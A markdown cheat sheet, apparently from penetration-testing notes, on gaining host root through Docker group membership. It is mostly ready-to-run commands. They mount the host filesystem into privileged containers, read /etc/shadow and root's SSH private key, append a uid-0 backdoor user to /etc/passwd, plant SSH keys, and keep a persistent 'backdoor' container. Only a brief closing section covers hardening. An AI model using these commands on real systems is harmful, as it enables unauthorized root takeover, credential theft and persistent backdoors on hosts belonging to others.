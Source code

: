 # 🐋 Docker Container Escape

## 🎯 Overview

Docker group membership provides equivalent root access to host filesystem through container mounting and privileged container execution.

## 🔍 Prerequisites

### Check Docker Group Membership
```bash
# Check if user is in docker group
id | grep docker
groups | grep docker

# Example output:
# uid=1000(user) gid=1000(user) groups=1000(user),999(docker)
```

### Docker Service Status
```bash
# Check if Docker is running
systemctl status docker
docker --version
docker ps
```

## 🚀 Exploitation Methods

### Method 1: Mount Host Filesystem
```bash
# Mount host root directory
docker run -v /:/mnt -it ubuntu

# Inside container, access host filesystem
cd /mnt/root  # Host root directory
cat /mnt/etc/shadow  # Host shadow file
```

### Method 2: Privileged Container
```bash
# Run privileged container with host access
docker run --privileged -v /:/hostfs -it ubuntu bash

# Change root to host filesystem
chroot /hostfs

# Now operating on host system as root
id  # Should show uid=0(root)
```

### Method 3: Direct Host Shell
```bash
# Run container with host PID namespace and mount
docker run -it --pid=host --net=host --privileged -v /:/host ubuntu bash

# Access host filesystem
chroot /host
```

## 🔧 Docker Image Management

### Available Images
```bash
# List available Docker images
docker images

# Search for lightweight images
docker search alpine
docker search ubuntu
```

### Pull and Use Images
```bash
# Pull Ubuntu image if needed
docker pull ubuntu

# Pull Alpine (smaller)
docker pull alpine

# Use existing image
docker run -v /:/mnt -it existing_image
```

## 🎯 Post-Exploitation

### Host System Access
```bash
# Inside container with host mount
cd /mnt  # or /hostfs depending on mount

# Read sensitive files
cat /mnt/etc/shadow
cat /mnt/root/.ssh/id_rsa

# Create backdoor user
echo 'backdoor:$6$salt$hash:0:0:root:/root:/bin/bash' >> /mnt/etc/passwd

# SSH key persistence
mkdir -p /mnt/root/.ssh
echo "ssh-rsa AAAA..." >> /mnt/root/.ssh/authorized_keys

# Copy important files
cp /mnt/etc/shadow /tmp/shadow_backup
tar czf /tmp/host_data.tar.gz /mnt/root/
```

### Escape Verification
```bash
# Verify we're on host system (not container)
hostname
cat /proc/1/cgroup
ls -la /  # Should see host filesystem
```

## 🔍 Detection & Enumeration

### Quick Docker Check Script
```bash
#!/bin/bash
echo "=== DOCKER PRIVILEGE ESCALATION CHECK ==="

echo "[+] Docker group membership:"
id | grep docker && echo "  [!] User is in docker group!"

echo "[+] Docker service status:"
systemctl status docker 2>/dev/null

echo "[+] Available Docker images:"
docker images 2>/dev/null

echo "[+] Running containers:"
docker ps 2>/dev/null

echo "[+] Docker version:"
docker --version 2>/dev/null
```

### Docker Socket Check
```bash
# Check for Docker socket access
ls -la /var/run/docker.sock

# Test Docker commands
docker ps
docker images
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Group membership
id | grep docker

# Available resources
docker images
docker ps -a
```

### Emergency Escalation
```bash
# If Docker group confirmed
docker run -v /:/mnt -it ubuntu

# Alternative with existing image
docker run -v /:/hostfs --privileged -it image_name bash
chroot /hostfs
```

### One-liner Escalation
```bash
# Complete Docker escalation
docker run -v /:/mnt -it ubuntu bash -c "cd /mnt/root && /bin/bash"
```

## 🔧 Advanced Techniques

### Container Breakout
```bash
# Run with all host namespaces
docker run -it --pid=host --net=host --ipc=host --uts=host -v /:/host ubuntu bash

# Access host processes directly
ps aux | grep systemd  # See host processes
```

### Persistence Methods
```bash
# Create persistent backdoor container
docker run -d --name backdoor -v /:/host --privileged ubuntu tail -f /dev/null

# Access anytime
docker exec -it backdoor bash
chroot /host
```

## ⚠️ Defensive Considerations

### Docker Security Issues
- **Group membership** = root equivalent access
- **Host filesystem mounting** bypasses all isolation
- **Privileged containers** disable security features
- **No authentication** required for group members

### Hardening Recommendations
```bash
# Remove users from docker group
sudo deluser username docker

# Use rootless Docker
dockerd-rootless.sh

# Monitor Docker usage
journalctl -u docker
```

---

*Docker group membership eliminates container isolation - privileged containers with host mounts provide immediate root access to the underlying host system.* 